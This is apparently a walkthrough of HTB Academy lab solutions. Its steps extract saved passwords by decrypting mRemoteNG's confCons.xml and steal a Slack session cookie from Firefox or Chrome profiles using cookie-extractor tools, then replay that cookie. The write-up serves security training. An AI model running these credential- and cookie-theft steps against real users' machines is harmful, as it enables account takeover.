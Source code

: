 ## 🎯 HTB Academy Lab Solutions

### Lab Environment Access
```cmd
# Various user credentials:
Peter:Bambi123           # Lab 1-2
Grace:<to_be_found>      # Lab 3  
Jeff:<to_be_found>       # Lab 4-5
```

### Lab 1: Application Identification
```cmd
# Objective: Identify remote management application
# Method: Application enumeration

# RDP as Peter:Bambi123
dir "C:\Program Files"
dir "C:\Program Files (x86)"

# Expected result: mRemoteNG
# Answer: mRemoteNG
```

### Lab 2: mRemoteNG Password Extraction
```cmd
# Objective: Extract Grace's password from mRemoteNG
# Method: confCons.xml decryption

# Find config file:
ls C:\Users\*\AppData\Roaming\mRemoteNG\confCons.xml

# Extract password hash from XML
# Use mremoteng_decrypt.py:
python3 mremoteng_decrypt.py -s "<Grace_password_hash>"

# Expected result: Grace's cleartext password
```

### Lab 3: Slack Cookie Extraction
```cmd
# Objective: Extract Slack cookie for slacktestapp.com
# Method: Browser cookie extraction as Grace

# Firefox method:
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
python3 cookieextractor.py --dbpath "cookies.sqlite" --host slacktestapp.com --cookie d

# Chrome method:
Invoke-SharpChromium -Command "cookies slacktestapp.com"

# Use Cookie-Editor to authenticate and get flag
```
